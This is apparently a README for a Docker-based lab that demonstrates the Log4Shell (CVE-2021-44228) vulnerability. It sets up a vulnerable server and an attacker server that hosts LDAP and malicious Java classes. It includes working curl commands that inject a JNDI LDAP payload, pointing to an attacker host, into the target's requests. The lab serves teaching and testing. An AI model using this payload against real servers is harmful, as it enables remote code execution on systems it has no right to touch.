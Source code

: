 # Log4Shell in action

This project aims to demonstrate how the Log4Shell / CVE-2021-44228 vulnerability works.

## Requirements

You only need to have Docker installed. Ideally you have two different virtual machines. One for the _vulnerable server_ and one for the _malicious server_ that will host the malicious codebase and a LDAP server.

Optionally you have _Make_ and _Docker Compose_ installed but this is **not** necesarry since this repo also contains a `make.sh` to skip these requirements and use them from within a docker container.

## Install Docker (optionally)

If you haven't already, here are the steps to install Docker on a Debian VM. You can use these steps: https://gist.github.com/mschmnet/5d8c979920801c73e148c901a5989b46

## Download the repository

```
git clone git@github.com:mschmnet/Log4Shell-demo.git 
```

## Install vulnerable server

```
cd vulnerable-server
../make.sh run # Or you coud execute make run if you hade Make and Docker Compose installed
```

## Start malicious server

This will start a basic LDAP server and basic Python server to serve the malicious Java classes.

You need to provide the IP address or domain name where these servers will be available

```
cd malicious-server
../make.sh run CODEBASE_URL=SERVER_IP_OR_DOMAIN_NAME # Optionally make instead of ../make.sh if you had Make and Docker Compose installed
``` 

## How to attack the target server

```
curl -X GET -G --data-urlencode 'foo=${jndi:ldap://IP_OR_DOMAIN_MALICIOUS_SERVER:1389/a}' http://IP_OR_DOMAIN_VULNERABLE_SERVER/some-endpoint

```
or just 
```
curl --location --request GET 'http://IP_OR_DOMAIN_VULNERABLE_SERVER/some-endpoint?foo=%24%7Bjndi%3Aldap%3A%2F%2FIP_OR_DOMAIN_MALICIOUS_SERVER%3A1389%2Fa%7D'
```

where `${jndi:ldap://IP_OR_DOMAIN_MALICIOUS_SERVER:1389/a}` is just URL encoded


## How to stop any of them

```
../make.sh stop
```

## How to show the logs 

```
../make.sh logs 
```
